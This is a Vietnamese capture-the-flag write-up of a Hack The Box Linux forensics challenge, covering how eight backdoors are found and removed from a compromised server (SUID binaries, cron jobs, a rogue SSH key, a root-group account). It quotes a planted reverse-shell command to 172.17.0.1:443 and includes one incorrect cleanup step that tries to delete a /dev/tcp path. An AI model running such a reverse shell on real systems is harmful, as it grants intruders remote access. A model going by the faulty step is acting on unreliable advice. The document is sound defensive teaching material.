# PersistencesFutile – Hack The Box

**Độ khó:** Medium  
**Thể loại:** Linux Forensics 

---

## 1 Giới thiệu Challenge

- Một máy chủ production đã bị hacker xâm nhập và cài đặt **nhiều backdoor**
- Server đã bị cô lập khỏi Internet
- Nhiệm vụ:
  - Điều tra
  - Tìm toàn bộ backdoor còn sót
  - Làm sạch hệ thống để đưa vào vận hành lại

---

## 2 Mục tiêu

- Xác định **8 backdoor khác nhau** trên hệ thống  
  (bao gồm **remote access** và **privilege escalation**)
- Loại bỏ chúng **an toàn**
- Sau khi hoàn tất, chạy `/root/solveme` bằng quyền root để xác nhận

---

## 3 Phương pháp giải

### Bước 1: Kết nối host & liệt kê file

 


- Phát hiện file `.backdoor` có quyền **SUID root** (`rwsr-xr-x`)
- Đây là backdoor nghiêm trọng → xóa ngay

```bash
rm -rf .backdoor
```

---

### Bước 2: Kiểm tra file cấu hình shell



- File `.bashrc` chứa **reverse shell**



- Mỗi lần `cat` file sẽ chạy:

```bash
bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

- Xóa endpoint kết nối ngược:

```bash
rm -rf /dev/tcp/172.17.0.1/443
```

---

### Bước 3: Kiểm tra process đang chạy



- Phát hiện process `alertd` chạy trên port **4444**



- Xóa file độc hại

```bash
kill -9 <PID>
rm -rf alertd
```

---

###  Bước 4: Phát hiện malware nền



- Phát hiện process đáng ngờ: `connectivity-check`



- Kill process và xóa file

```bash
kill -9 <PID>
rm -rf connectivity-check
```

---

### Bước 5: Kiểm tra Binary có SUID

```bash
find / -perm -04000 2>/dev/null
```



- Xóa các binary độc hại được phát hiện

---

### Bước 6: Kiểm tra Crontab (Persistence)



- Phát hiện cron job chạy script từ `imforce.HTB`

- Kiểm tra thư mục cron:

```bash
cd /etc
find cron.* -type f
```



- Hai thư mục khả nghi:
  - `pyssh`
  - `access-up`

---

### Bước 6.1: Phân tích pyssh



- Trong `ssh_import_id_update` phát hiện đoạn **Base64**



- Decode Base64 → phát hiện key SSH độc hại





- Xóa khóa lạ:

```bash
rm -rf /root/.ssh/authorized_keys
```

---

### Bước 6.2: Phân tích access-up



- Script có chức năng:
  - Copy `/bin/bash` sang thư mục hệ thống
  - Đặt **SUID (4755)** → privilege escalation

- File đã bị xóa từ trước
- Xóa thư mục `access-up`

```bash
rm -rf access-up
```

---

### Bước 7: Kiểm tra lại connectivity-check

```bash
find / -type f -name "*connectivity-check*" 2>/dev/null
```

 



- Phát hiện file `30-connectivity-check` chạy bằng `nohup`

- Xóa file persistence này

---

### Bước 8: Kiểm tra tài khoản hệ thống (Privilege Escalation)

#### Kiểm tra `/etc/passwd`



- User `gnats`:
  - Là user hệ thống
  - Nhưng có `/bin/bash`
  - UID/GID: `41:0` → thuộc group root

→ Rất nguy hiểm

- Chỉnh sửa:
  - GID từ `0` → `41`
  - Shell → `/usr/sbin/nologin`

---

#### Kiểm tra `/etc/shadow`



- User `gnats` có hash mật khẩu → cho phép đăng nhập
- Tiến hành vô hiệu hóa đăng nhập



---

## 4 Kết quả

- Sau khi loại bỏ **đủ 8 persistence**
- Chạy kiểm tra:

```bash
./solveme
```





---

## 5 Kết luận & Bài học

- Challenge yêu cầu xử lý **Incident Response thực tế**:
  - Gỡ cron job độc hại
  - Xóa SSH key trái phép
  - Kill process backdoor
  - Vô hiệu hóa user privilege escalation
  - Loại bỏ SUID binary nguy hiểm

- Hoàn thành toàn bộ **8 issue** chứng minh:
  - Hệ thống đã được **làm sạch hoàn toàn**
  - Không còn cơ chế duy trì quyền truy cập của attacker


